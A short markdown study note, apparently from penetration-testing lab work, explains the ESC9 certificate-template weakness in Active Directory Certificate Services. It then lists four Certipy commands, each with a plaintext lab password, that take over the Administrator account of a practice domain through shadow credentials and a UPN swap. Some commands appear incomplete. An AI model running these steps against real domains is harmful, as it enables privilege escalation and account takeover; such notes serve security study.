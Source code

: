 ```yaml
---
category: Uncategorized
tags: []
---
```

# General Overview: 

The `CT_FLAG_NO_SECURITY_EXTENSION` (0x80000) value for the `msPKI-Enrollment-Flag`, known as ESC9, prevents the inclusion of the `szOID_NTDS_CA_SECURITY_EXT` security extension in certificates. This flag is particularly important when `StrongCertificateBindingEnforcement` is set to 1 (the default), as opposed to 2. Its significance increases in scenarios where weaker certificate mappings for Kerberos or Schannel could be exploited, such as in ESC10, since the absence of ESC9 would not affect the security requirements.

## Requirements: 
- StrongCertificateBindingEnforcement set to 1 (default) or 0
- Certificate contains the CT_FLAG_NO_SECURITY_EXTENSION flag in the msPKI-Enrollment-Flag value
- Certificate specifies Any Client authentication EKU
- GenericWrite over any account A to compromise any account B
# Abusing ESC9  Certificate Templates

## Scenario 1 

afsimmons@megacorpone.com has GenericWrite over xadmin@megacorpone.com, and we want to compromise Administrator@megacorpone.com. xadmin@megacorpone.com is allowed to enroll in the certificate template ESC9 that specifies the CT_FLAG_NO_SECURITY_EXTENSION flag in the msPKI-Enrollment-Flag value.
## Certipy

- certipy-ad shadow auto -username afsimmons@megacorpone.com -p Spawn123! -account xadmin
- certipy-ad account update -username afsimmons@megacorpone.com -p Spawn123! -user xadmin -upn Administrator
- certipy-ad req -username afsimmons@megacorpone.com -password Spawn123! -user xadmin@megacorpone.com
- certipy-ad auth -pfx administrator.pfx -domain megacorpone.com
